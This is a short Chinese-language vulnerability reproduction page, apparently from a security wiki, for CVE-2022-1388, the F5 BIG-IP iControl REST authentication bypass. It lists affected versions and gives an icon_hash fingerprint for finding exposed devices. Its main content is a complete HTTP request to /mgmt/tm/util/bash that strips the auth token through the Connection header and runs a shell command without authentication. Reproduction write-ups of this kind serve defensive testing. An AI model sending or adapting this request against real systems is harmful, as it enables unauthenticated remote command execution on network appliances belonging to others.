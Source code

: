 # F5 BIG-IP iControl REST身份认证绕过漏洞 CVE-2022-1388

## 漏洞描述

BIG-IP 是 F5 公司的一款应用交付服务是面向以应用为中心的世界先进技术。借助 BIG-IP 应用程序交付控制器保持应用程序正常运行。BIG-IP 本地流量管理器 (LTM) 和 BIG-IP DNS 能够处理应用程序流量并保护基础设施。未经身份验证的攻击者可以通过管理端口或自身 IP 地址对 BIG-IP 系统进行网络访问，执行任意系统命令、创建或删除文件或禁用服务。

## 漏洞影响

<a-checkbox checked>11.6.1-16.1.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-335242539"</a-checkbox></br>

## 漏洞复现

登录页面

![image-20220509184545493](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220509184545493.png)

发送请求包(Host设为localhost)

```java
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: a
Connection: close, X-F5-Auth-Token
Content-Length: 39

{"command":"run","utilCmdArgs":"-c id"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1652093045231-d532fbbd-7b56-4f58-a7a6-75d317750ad1.png)